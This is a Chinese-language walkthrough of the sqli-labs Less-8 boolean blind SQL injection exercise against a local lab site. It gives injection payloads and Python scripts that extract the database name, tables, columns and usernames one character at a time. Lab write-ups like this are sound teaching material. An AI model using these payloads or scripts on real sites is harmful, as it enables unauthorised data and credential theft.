


## 练习开始
首先打开http://127.0.0.1/Less-8/?id=1

less-8是单引号 的盲注


核心语句是
```sql
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

问题是这边已经不继续爆错了

测试用的payload
```
' and 's'='s' --+      返回正确内容
' and 's'='x' --+      返回错误的内容
```

1. 判断数据库长度
```
http://127.0.0.1/Less-8/?id=1' and length(database())=8 --+
```
当数值为8的时候返回正确


当数值为9的时候返回错误的信息
```
http://127.0.0.1/Less-8/?id=1' and length(database())=9 -- 
```


2. 判断数据库的名字
现在需要用到mysql自带的两个函数,ascii,substr
ascii函数的作用是将单一字符转换成ascii码的形式，而可打印字符 的范围是ascII码33--127
substr(string, index, num):是用来进行偏移转换的，从index字符开始，偏移num个字符，mysql中的index是从1开始的，而hibernate中的index是从0开始的。
database()是mysql自带的函数用来显示当前web使用的数据库
基本的语法就是
```
http://127.0.0.1/Less-8/?id=1' and ascii(substr(database(), 1,1))=108 -- 
```


用Python代码
```python

import requests

char_list = []

for i in range(1,9): #前期的测试已经证明数据库名字是8位字符
    for j in range(33, 128):
        burp0_url = "http://127.0.0.1:80/Less-8/?id=1%27%20and%20ascii(substr(database(),%20{index},1))={num}%20--+".format(index=i, num=j)
        burp0_headers = {"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:61.0) Gecko/20100101 Firefox/61.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
        response = requests.get(burp0_url, headers=burp0_headers)

        if "You are in" in response.text:
            char_list.append(chr(j))
            break

print("".join(char_list))

```


3. 判断表的数量
```shell
http://127.0.0.1/Less-8/?id=1' and (select count(*) from information_schema.tables where TABLE_SCHEMA='security')=4 --+
```


表的数量是4

4. 判读四个表的名字长度
示例
```
http://127.0.0.1/Less-8/?id=1' and (select length(table_name) from information_schema.tables where TABLE_SCHEMA='security' limit 0,1)=4 --+
```


代码
```python
import requests

for i in range(0, 4):

    for j in range(1, 20):

        burp0_url = "http://127.0.0.1:80/Less-8/?id=1%27%20and%20(select%20length(table_name)%20from%20information_schema.tables%20where%20TABLE_SCHEMA=%27security%27%20limit%20{index},1)={num}%20--+".format(index=i, num=j)
        burp0_headers = {"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:61.0) Gecko/20100101 Firefox/61.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
        response = requests.get(burp0_url, headers=burp0_headers)

        if "You are in" in response.text:
            print(i, j)
            break
```


5. 判断表的名字
demo

```
http://127.0.0.1/Less-8/?id=1' and (ascii(substr((select table_name from information_schema.tables where TABLE_SCHEMA='security' limit 0,1),1,1)))=101 -- 
```

最后代码
```python
import requests

for i in range(0, 4):
    flag_list = []
    
    for j in range(1, 9):
        for k in range(33,128):

            burp0_url = "http://127.0.0.1:80/Less-8/?id=1%27%20and%20(ascii(substr((select%20table_name%20%20from%20information_schema.tables%20where%20TABLE_SCHEMA=%27security%27%20limit%20{index1},1),{index2},1)))={num}%20--+".format(index1=i, index2=j, num=k)
            burp0_headers = {
            "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:61.0) Gecko/20100101 Firefox/61.0",
            "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
            "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
            "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}

            response = requests.get(burp0_url, headers=burp0_headers)


            if "You are in" in response.text:

                flag_list.append(chr(k))
                break
    print("".join(flag_list))
```




5. 判断数据库security的表users中的列的数量
```
http://127.0.0.1/Less-8/?id=1' and (select count(*) from information_schema.columns where TABLE_SCHEMA='security' and TABLE_NAME='users')=3 --+
```


6. 判断columns的长度
```
http://127.0.0.1/Less-8/?id=1' and (select length(COLUMN_NAME) from information_schema.columns where TABLE_SCHEMA='security' and TABLE_NAME='users' limit 0,1)=3 --+
```


```python
import requests


for i in range(0,3):
    for j in range(1,10):
        burp0_url = "http://127.0.0.1:80/Less-8/?id=1%27%20and%20(select%20length(COLUMN_NAME)%20from%20information_schema.columns%20where%20TABLE_SCHEMA=%27security%27%20and%20TABLE_NAME=%27users%27%20limit%20{index},1)={num}%20--+".format(index=i, num=j)
        burp0_headers = {"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:62.0) Gecko/20100101 Firefox/62.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
        response = requests.get(burp0_url, headers=burp0_headers)

        if "You are in" in response.text:
            print(i, j)
            break
```




7. 判断列的名字

```
http://127.0.0.1/Less-8/?id=1' and (ascii(substr((select column_name from information_schema.columns where TABLE_SCHEMA='security' and table_name='users' limit 0,1),1,1)))=101 --+
```

```python
import requests


for i in range(0,3):

    flag_list = []

    for j in range(1,10):
        for k in range(33, 128):

            burp0_url = "http://127.0.0.1:80/Less-8/?id=1%27%20and%20(ascii(substr((select%20column_name%20from%20information_schema.columns%20where%20TABLE_SCHEMA=%27security%27%20and%20table_name=%27users%27%20limit%20{index1},1),{index2},1)))={num}%20--+".format(index1=i, index2=j, num=k)
            burp0_headers = {
            "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:62.0) Gecko/20100101 Firefox/62.0",
            "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
            "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
            "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
            response = requests.get(burp0_url, headers=burp0_headers)

            if "You are in" in response.text:

                flag_list.append(chr(k))
                break

    print("".join(flag_list))
```


8. last信息
判断列的数量
```
http://127.0.0.1/Less-8/?id=1' and (select count(id) from users)=8 --+
```


八个内容

判断内容的长度

```
http://127.0.0.1/Less-8/?id=1' and (select length(username) from users limit 0,1)=1 --+
```


判断username和password列八个字断的长度
```python
import requests

column_name = ["username", "password"]


for col in column_name:
    print(col)
    for  i in range(0,8):
        for j in range(1, 20):
            burp0_url = "http://127.0.0.1:80/Less-8/?id=1%27%20and%20(select%20length({col})%20from%20users%20limit%20{index},1)={num}%20--+".format(col=col,index=i, num=j)
            burp0_headers = {"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:62.0) Gecko/20100101 Firefox/62.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
            response = requests.get(burp0_url, headers=burp0_headers)

            if "You are in" in response.text:

                print(i, j)
                break
```


最后判断内容
```
http://127.0.0.1/Less-8/?id=1' and ascii(substr((select username from users limit 0,1),1,1))=68 --+
```


```python
import requests


for i in range(1,5):
    for j in range(33,128):
        burp0_url = "http://127.0.0.1:80/Less-8/?id=1%27%20and%20ascii(substr((select%20username%20from%20users%20limit%200,1),{index},1))={num}%20--+".format(index=i, num=j)
        burp0_headers = {"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:62.0) Gecko/20100101 Firefox/62.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
        response = requests.get(burp0_url, headers=burp0_headers)

        if "You are in" in response.text:
            print(chr(j))
            break

```


